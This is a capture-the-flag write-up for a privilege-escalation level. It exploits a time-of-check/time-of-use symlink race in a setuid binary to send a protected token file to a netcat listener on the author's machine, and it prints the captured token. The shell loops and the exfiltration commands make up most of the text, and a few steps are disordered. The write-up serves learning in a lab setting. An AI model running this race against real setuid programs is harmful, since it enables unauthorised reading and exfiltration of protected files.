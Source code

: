 ##Level 10

In this level, we have an executable which will send a file to a remote host.

```bash
ls -l
        -rwsr-s---+ 1 flag10 level10 8617 Mar  5  2016 level10
        -rw-------  1 flag10 flag10    26 Mar  5  2016 token
```
We can create a symlink to try to read the content in the token file (symlink race)

```bash
ln -s /home/user/level10/token /tmp/flag
```
Now let's try to send my file to the server

```bash
./level10 /tmp/flag 192.168.56.101
```
You don't have access to /tmp/flag
```bash
cat /tmp/flag
    cat: /tmp/flag: Permission denied
```

Nope, still unable to execute my flag and send it to a server

To open a port in your machine:
```bash
nc -lk 6969
```

let's get the executable to my host with scp

```bash
scp -P 4242 level10@192.168.56.101:/tmp/flag /mnt/nfs/homes/emaugale/Desktop
```

So must find a way to make your file accessible to the server.
When we use ltrace, the executable will first try to access our file and then read the file's content. -> Do a /tmp/flag file with nothing on it when accessed; we can delete it and recreate one, which will be a symlink to the token file, launch our server, and print the result

```bash
    while true;
        do
        touch /tmp/link
        rm -f /tmp/link
        ln -s /home/user/level10/token /tmp/link
        rm -f /tmp/link
        done
```

```bash
    while true;
    do
    /home/user/level10/level10 /tmp/link 192.168.56.101 2> /dev/null
    done
...
bash /tmp/script1.sh & bash /tmp/script2.sh
```

Check flag.Here is your token : feulo4b72j7edeahuete3no7c
